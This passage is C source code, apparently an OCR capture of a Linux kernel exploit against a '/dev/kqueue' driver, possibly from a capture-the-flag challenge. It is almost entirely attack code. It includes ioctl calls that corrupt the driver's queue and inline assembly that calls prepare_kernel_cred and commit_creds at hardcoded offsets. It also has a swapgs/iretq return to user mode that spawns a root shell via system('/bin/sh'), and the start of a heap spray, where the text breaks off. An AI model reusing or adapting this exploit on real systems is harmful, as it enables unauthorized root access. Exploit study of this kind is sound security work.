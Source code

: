 ```c
{
    request_t request={
        .max_entries=max_entries,
        .data_size=data_size,
        .queue_idx=queue_idx,
    };
    ioctl(fd,0xB105BABE,&request);
}
void shell()
{
    __asm__(
            "mov r12, [rsp + 0x8];"
            "sub r12, 0x201179;"
            "mov r13, r12;"
            "add r12, 0x8c580;"// prepare_kernel_cred
            "add r13, 0x8c140;"// commit_creds
            "xor rdi, rdi;"
            "call r12;"
            "mov rdi, rax;"
            "call r13;"
            "swapgs;"
            "push user_ss;"
            "push user_sp;"
            "push user_rflags;"
            "push user_cs;"
            "push user_rip;"
            "iretq;");
}
// typedef struct{
//     uint16_t data_size;
//     uint64_t queue_size; /* This needs to handle larger numbers */
//     uint32_t max_entries;
//     uint16_t idx;
//     char* data;
// }queue;
void get_shell()
{
    system("/bin/sh");
}
size_t user_cs, user_rflags, user_sp, user_ss, user_rip = (size_t) get_shell;
void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;");
    puts("[*] status has been saved.");
}

int main()
{
    save_status();
    int fd1=open("/dev/kqueue",O_RDONLY);
    create_kqueue(fd1,0xffffffff,0x40);
    size_t * shellcode=malloc(0x40);
    for(int i=0;i<8;i++)
    {
        shellcode[i]=shell;
    }

    edit_kqueue(fd1,0,0,shellcode);
    int seq_fd[0x100];
    for(int i=0;i<0x100;i++)
```